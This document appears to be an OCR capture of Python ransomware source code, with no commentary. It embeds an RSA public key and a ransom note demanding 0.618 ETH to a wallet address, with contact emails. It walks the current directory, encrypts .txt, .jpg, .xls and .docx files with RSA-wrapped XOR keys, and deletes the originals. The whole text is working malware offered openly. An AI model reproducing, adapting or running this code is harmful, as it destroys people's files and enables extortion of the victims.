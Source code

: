 ```powershell
pubkey = '-----BEGIN PUBLIC KEY-----\nMIIBIzANBgkqhkiG9w0BAQEFAAOCARAAMIIBCwKCAQEAx5JF4elVDBaakgGeDSxI\nCO1LyyZ6B2TgR4DNYiQoB1zAyWPDwektaCfnvNeHURBrw++HvbuNMoQNdOJNZZVo\nbHVZh+rCI4MwAh+EBFUeT8Dzja4ZlU9E7jufm69TQS0PSseIiU/4Byd2i9BvIbRn\nHLFZvi/VXphGeW0qVeHkQ3Ll6hJ2fUGhTsuGLc1XXHfiZ4RbJY/AMnjYPy9CaYzi\nSOT4PCf/O12Kuu9ZklsIAihRPl10SmM4IRnVhZYYpXedAyTcYCuUiI4c37F5GAhz\nRDFn9IQ6YQRjlLjuOX8WB6H4NbnKX/kd0GsQP3Zbogazj/z7OM0Y3rv3T8mtF6/I\nkwIEHoau+w==\n-----END PUBLIC KEY-----\n'
msg = "SOMETHING WENT WRONG,PLEASE CONTACT YOUR SYSTEM ADMINISTRATOR!\nHe can help you to understand whats happened.\nIf he can't help you,contact us via email:\naa1028@forensix.cn\nale@forensix.cn\nHURRY UP!WE HAVE ANTIDOTE FOR YOUR FILES!DISCOUNT 20%FOR CLIENTS,WHO CONTACT US IN THE SAME DAY!\nYou can attach 2 files (text or picture)to check our honest intentions,we will heal them and send\nback.\nPlease pay 0.618 ETH\nThe wallet address：0xef9edf6cdacb7d925aee0f9bd607b544c5758850\n************************************\n"

class XORCBC:

    def __init__(self, key: bytes):
        self.key = bytearray(key)
        self.cur = 0

    def encrypt(self, data: bytes) -> bytes:
        data = bytearray(data)
        for i in range(len(data)):
            tmp = data[i]
            data[i] ^= self.key[self.cur]
            self.key[self.cur] = tmp
            self.cur = (self.cur + 1) % len(self.key)

        return bytes(data)


print('加密程序V1.0')
print('文件正在加密中~~~~~~~~~~~~~~~~~~\n')

def run_finall():
    for filepath, dirnames, filenames in os.walk(os.getcwd()):
        for filename in filenames:
            if filename != 'encrypt_file.py' and filename != 'decrypt_file.py' and '_encrypted' not in filename:
                ExtensionPath = os.path.splitext(filename)[(-1)]
                if '.txt' == ExtensionPath or '.jpg' == ExtensionPath or '.xls' == ExtensionPath or '.docx' == ExtensionPath:
                    time.sleep(3)
                    data_file = os.path.join(filepath, filename)
                    rsakey = RSA.import_key(pubkey)
                    cipher = Cipher_pkcs1_v1_5.new(rsakey)
                    xor_key = os.urandom(16)
                    xor_obj = XORCBC(xor_key)
                    outf = open(data_file + '_encrypted', 'wb')
                    encrypted_xor_key = cipher.encrypt(xor_key)
                    outf.write(encrypted_xor_key)
                    buffer_size = 4096
                    with open(data_file, 'rb') as (f):
                        while True:
                            data = f.read(buffer_size)
                            if not data:
                                break
                            outf.write(xor_obj.encrypt(data))

                    outf.close()
                    os.remove(data_file)


run_finall()

```